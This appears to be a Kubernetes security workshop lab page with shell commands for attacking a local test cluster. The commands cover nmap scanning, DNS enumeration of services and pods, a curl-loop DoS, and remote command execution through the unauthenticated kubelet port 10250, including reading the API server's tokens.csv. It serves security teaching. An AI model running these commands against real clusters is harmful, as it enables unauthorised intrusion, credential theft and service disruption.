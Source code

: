 # Kubernetes Security Assessment

__References:__
* https://raesene.github.io/blog/2016/10/08/Kubernetes-From-Container-To-Cluster
* https://raesene.github.io/blog/2017/07/23/network-tools-in-nonroot-docker-images
* https://medium.com/@airman604/kali-linux-in-a-docker-container-5a06311624eb
* https://github.com/raesene/alpine-noroot-containertools
* https://grafeas.io
* https://www.openpolicyagent.org
* https://k8guard.github.io

## 1) Identifying Attack Vectors

Below you can see different attack vectors for HelloWord v3 as target.

```sh
$ git clone https://github.com/chilcano/service-mesh-workshop
$ cd $(PWD)/service-mesh-workshop/labs

$ kubectl get pod,svc -n hello -o wide

## getting all system environment variables available in a POD
$ kubectl exec hello-v1-69c9685b5-dgnhq  -n hello -- printenv

$ kubectl exec hello-v3-7cb4968687-f99b8 -n hello -c helloworld -- curl -s localhost:5000/hello
Hello version: v3, instance: hello-v3-7cb4968687-f99b8

## introducing a ‘malicious’ container
$ kubectl create ns malicious
$ kubectl run malicious-curl --image=radial/busyboxplus:curl -ti --replicas=1 -n malicious
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nmap xyz

## calling an API from other namespace through its services
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv hello-svc-np.hello.svc.cluster.local:5030/hello
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv hello-svc-np-e2e.hello.svc.cluster.local:5040/hello

## DoS attack
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ export HELLO_URL=hello-svc-np.hello.svc.cluster.local:5030
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ while true; do curl -s -o /dev/null http://$HELLO_URL/hello; done

## gathering information about the services living in kubernetes
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup hello-svc-np.hello.svc.cluster.local
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup hello-svc-np-e2e.hello.svc.cluster.local

## gathering information about the pods living in kubernetes
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172.17.0.7                             # po/hello-v1-69c9685b5-dgnhq
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172-17-0-7.hello.pod.cluster.local
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172.17.0.8                             # po/hello-v3-7cb4968687-f99b8
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ nslookup 172-17-0-8.hello.pod.cluster.local

## calling an API from other namespace directly from pod's IP addresses and open Ports
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv 172.17.0.7:5000/hello
[ root@malicious-curl-6b6f76f5f9-bsl9x:/ ]$ curl -sv 172.17.0.8:5000/hello

## Deploying Kali Linux (security audit tools)
$ kubectl apply -f 05-security-assessment/kali-linux.yaml
$ export KALI_POD_NAME=$(kubectl get pod -l run=kali-linux -o jsonpath='{.items[0].metadata.name}')
$ kubectl exec -ti ${KALI_POD_NAME} -- /bin/sh
# apt update
# apt install -y nmap curl netcat
```

## 2) Gathering information

### 2.1) Scanning internal network to get open ports:
```sh
$ kubectl cluster-info
Kubernetes master is running at https://192.168.99.100:8443

$ kubectl exec -ti ${KALI_POD_NAME} -- /bin/sh
# ip address

# nmap -sT -v -n -p10250 192.168.99.0/24
...
PORT      STATE  SERVICE
10250/tcp closed unknown

Nmap scan report for 192.168.99.100
Host is up (0.00068s latency).

PORT      STATE SERVICE
10250/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
Nmap done: 256 IP addresses (2 hosts up) scanned in 30.31 seconds
           Raw packets sent: 1920 (72.492KB) | Rcvd: 1896 (124.416KB)
```

### 2.2) Enumerate containers running in cluster

### 2.3) Exploring and getting information from containers and pods.

```sh
# curl -sk https://192.168.99.100:10250/runningpods/ | python -mjson.tool
```

```json
...
        {
            "metadata": {
                "creationTimestamp": null,
                "name": "hello-v3-7cb4968687-w7rkt",
                "namespace": "hello",
                "uid": "fd197309-3d9d-11e8-8164-0800273e1a0b"
            },
            "spec": {
                "containers": [
                    {
                        "image": "istio/proxy@sha256:51ec13f9708238351a8bee3c69cf0cf96483eeb03a9909dea12306bbeb1d1a9d",
                        "name": "istio-proxy",
                        "resources": {}
                    },
                    {
                        "image": "istio/examples-helloworld-v1@sha256:c671702b11cbcda103720c2bd3e81a4211012bfef085b7326bb7fbfd8cea4a94",
                        "name": "helloworld",
                        "resources": {}
                    }
                ]
            },
            "status": {}
        },
...
```

Performing commands remotely through Kubernetes API Server:
```sh
# curl -k -XPOST "https://192.168.99.100:10250/run/hello/hello-v3-7cb4968687-w7rkt/helloworld" -d "cmd=ls -la"
# curl -k -XPOST "https://192.168.99.100:10250/run/hello/hello-v3-7cb4968687-w7rkt/helloworld" -d "cmd=cat app.py"
```

## 2.4) Getting information about Docker Images stored in Docker Registry

```sh
$ kubectl get pod,svc -n kube-system | grep registry
po/registry-7lmvk              1/1       Running   0          22m
svc/registry               ClusterIP   10.96.231.4     <none>        80/TCP          22m

$ kubectl exec -it busybox-curl-745f8579cd-jw9q9 -- sh
root@busybox-curl-745f8579cd-jw9q9:/ ]$ curl -v registry.kube-system.svc.cluster.local/v2/_catalog
root@busybox-curl-745f8579cd-jw9q9:/ ]$ nslookup registry.kube-system.svc.cluster.local
Server:    10.96.0.10
Address 1: 10.96.0.10 kube-dns.kube-system.svc.cluster.local

Name:      registry.kube-system.svc
Address 1: 10.96.231.4 registry.kube-system.svc.cluster.local
```


## 3) Assessing the Kubernetes API Server security

```sh
# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=ls -la /"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=whoami"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=ps -ef"

# curl -k -XPOST "https://192.168.99.100:10250/run/kube-system/kube-apiserver-kube/kube-apiserver" -d "cmd=cat /etc/kubernetes/pki/tokens.csv"
```

Now, try it from out of cluster.
```sh
$ curl -k -X GET -H "Authorization: Bearer xyz..." https://192.168.99.100
```

## 4) Installing Security Tools as not root

```sh
$ kubectl apply -f labs/kube/03-ingress-sidecar/alpine-noroot-sec-tools.yaml
```
